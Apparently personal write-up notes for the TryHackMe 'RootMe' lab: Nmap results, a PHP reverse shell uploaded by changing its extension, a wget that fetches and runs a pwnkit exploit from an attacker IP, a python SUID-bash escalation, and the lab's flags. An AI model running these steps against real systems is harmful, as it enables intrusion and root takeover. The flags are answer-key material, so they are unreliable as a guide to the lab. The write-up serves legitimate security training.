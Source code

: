 #TryHackMe #linux 
# Enumeration
## Nmap
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4ab9160884c25448ba5cfd3f225f2214 (RSA)
|   256 a9a686e8ec96c3f003cd16d54973d082 (ECDSA)
|_  256 22f6b5a654d9787c26035a95f3f9dfcd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: HackIT - Home
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
Aggressive OS guesses: Linux 3.1

# Exploit 
┌──(root㉿kali)-[/home/kali/Desktop]
└─# mv php-reverse-shell.pHp php-reverse-shell.pHP5 

## upload php-reverse-shell.pHP5 in http://10.10.15.241/panel/

# FootHold
## Enum
Linux version 4.15.0-112-generic
/home/rootme/.profile
/home/rootme/.sudo_as_admin_successful
-rwsr-xr-x 1 root root 22K Mar 27  2019 /usr/bin/pkexec  -->  Linux4.10_to_5.1.17

## Exploit && PrivEsc
### with pwnkit
	[www-data@rootme:/tmp$] wget http://10.2.28.175/pwnkit
	[www-data@rootme:/tmp$ ]chmod +x pwnkit
	[www-data@rootme:/tmp$] ./pwnkit
	[root@rootme:/tmp# ]
### with python
	www-data@rootme:/tmp$ python -c 'import os; os.execl("/bin/bash", "bash", "-p")'
	bash-4.4# cat /root/root.txt
	cat /root/root.txt

[root@rootme:~# ]find / -type f -name user.txt
/var/www/user.txt
[root@rootme:~# ]cat /var/www/user.txt
THM{y0u_g0t_a_sh3ll}
[root@rootme:~#] cat root.txt
THM{pr1v1l3g3_3sc4l4t10n}



